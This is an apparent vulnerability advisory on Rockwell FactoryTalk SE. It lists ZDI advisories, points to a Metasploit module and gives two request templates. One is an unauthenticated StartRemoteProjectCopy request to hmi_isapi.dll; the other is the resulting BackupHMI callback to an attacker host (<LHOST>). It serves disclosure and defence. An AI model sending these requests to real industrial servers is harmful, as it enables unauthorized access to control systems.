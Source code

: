 * [ZDI-20-727](https://www.zerodayinitiative.com/advisories/ZDI-20-727/)
* [ZDI-20-728](https://www.zerodayinitiative.com/advisories/ZDI-20-728/)
* [ZDI-20-729](https://www.zerodayinitiative.com/advisories/ZDI-20-729/)
* [ZDI-20-730](https://www.zerodayinitiative.com/advisories/ZDI-20-730/)

A Metasploit module was also made available to the public with this advisory, and can be found at:

* [rockwell_factorytalk_rce.rb](TODO)

Click on the thumbnail below to see the video of the Metasploit module in action:

[![replicant video](https://img.youtube.com/vi/PIid0Ql_KmU/0.jpg)](https://www.youtube.com/watch?v=PIid0Ql_KmU)

~ Team FlashBack


# Vulnerability Details

## Background on the target service

FactoryTalk SE exposes several REST endpoints on Microsoft IIS that are accessible remotely. One of these endpoints is at */rsviewse/hmi_isapi.dll*, which is an [ISAPI](https://en.wikipedia.org/wiki/Internet_Server_Application_Programming_Interface) DLL handler that performs a number of actions that deal with FactoryTalk project management.

The ISAPI DLL was loaded and briefly analysed in [Ghidra](https://ghidra-sre.org/) in order to understand its basic functionality. However this turned out to be unnecessary, as all the steps described in this advisory were discovered with a pure black-box penetration testing approach.


## Vulnerability #1: Unauthenticated Project Copy Request

One of the actions implemented by *hmi_isapi.dll* is *StartRemoteProjectCopy*. This can be initiated by issuing an HTTP GET request to:
```
http://<TARGET>/rsviewse/hmi_isapi.dllStartRemoteProjectCopy&<PROJECT_NAME>&<RANDOM_STRING>&<LHOST>
```
> Snippet 1: *StartRemoteProjectCopy* request from `<LHOST>` to `<TARGET>`



In the example above:

* `<TARGET>` refers to the server running FactoryTalk
* `<PROJECT_NAME>` must be an existing project in the server
* `<RANDOM_STRING>` can be any random string as the name implies
* `<LHOST>` is the IP address of the attacker's host

After this request is sent, if `<PROJECT_NAME>` exists on `<TARGET>`, then `<TARGET>` will issue an HTTP GET request to `<LHOST>` as follows:
```
http://<LHOST>/rsviewse/hmi_isapi.dll?BackupHMI&<RNA_ADDRESS>&<PROJECT_NAME>&1&1
```
> Snippet 2: *BackupHMI* request from `<TARGET>` to `<LHOST>`

